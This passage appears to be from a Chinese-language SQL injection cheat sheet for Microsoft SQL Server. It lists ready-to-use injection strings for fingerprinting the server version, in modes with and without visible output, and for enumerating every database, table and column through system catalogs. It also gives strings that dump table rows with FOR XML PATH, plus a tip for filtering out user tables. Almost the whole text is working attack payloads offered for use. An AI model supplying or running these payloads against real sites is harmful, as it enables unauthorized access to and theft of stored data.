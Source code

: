 and 1=@@version--这个语句要在有回显的模式下才可以哦

and substring((select  @@version),22,4)='2008'--适用于无回显模式，后面的2008就是数据库版本，     返回正常就是2008的复制代码第一条语句执行效果图（类似）：第二条语句执行效果图：（如果是        2008的话就返回正常）

##### **③**获取所有数据库的个数 (以下3条语句可供选择使用)

1. and 1=(select quotename(count(name)) from master..sysdatabases)--

2. and 1=(select cast(count(name) as varchar)%2bchar(1) from master..sysdatabases) --

3. and 1=(select str(count(name))%2b'|' from master..sysdatabases where dbid>5) --

  and 1=(select str(count(name))%2b'|' from master..sysdatabases where dbid>5) --

  and 1=(select cast(count(name) as varchar)%2bchar(1) from master..sysdatabases where dbid>5) --

说明：dbid从1-4的数据库一般为系统数据库.

##### **④**获取数据库 （该语句是一次性获取全部数据库的，且语句只适合>=2005，两条语句可供选择使用）

​    and 1=(select quotename(name) from master..sysdatabases FOR XML PATH(''))--

​    and 1=(select '|'%2bname%2b'|' from master..sysdatabases FOR XML PATH(''))--

##### ⑤获取当前数据库

and db_name()>0

and 1=(select db_name())--

##### **⑥**获取当前数据库中的表（有2个语句可供选择使用）【下列语句可一次爆数据库所有表（只限于  mssql2005及以上版本）】

​    and 1=(select quotename(name) from 数据库名..sysobjects where xtype='U' FOR XML PATH(''))-- 

​     and 1=(select '|'%2bname%2b'|' from 数据库名..sysobjects where xtype='U'  FOR XML PATH(''))--

##### **⑦**获得表里的列

一次爆指定表的所有列（只限于mssql2005及以上版本）：

​     and 1=(select quotename(name) from 数据库名..syscolumns where id =(select  id from 数据库名..sysobjects where name='指定表名') FOR XML PATH(''))-- 

​     and 1=(select '|'%2bname%2b'|' from 数据库名..syscolumns where id =(select  id from 数据库名..sysobjects where name='指定表名') FOR XML PATH(''))--

##### ⑧获取指定数据库中的表的列的数据库

逐条爆指定表的所有字段的数据（只限于mssql2005及以上版本）：

​    and 1=(select top 1 * from 指定数据库..指定表名 where排除条件 FOR XML PATH(''))--

一次性爆N条所有字段的数据（只限于mssql2005及以上版本）：

​     and 1=(select top N * from 指定数据库..指定表名 FOR XML PATH(''))--复制代码第一条语句：and  1=(select top 1 * from 指定数据库..指定表名 FOR XML  PATH(''))--测试效果图：----------------------------------加上where条件筛选结果出来会更加好，如：where  and name like '%user%' 就会筛选出含有user关键词的出来。用在筛选表段时很不错。


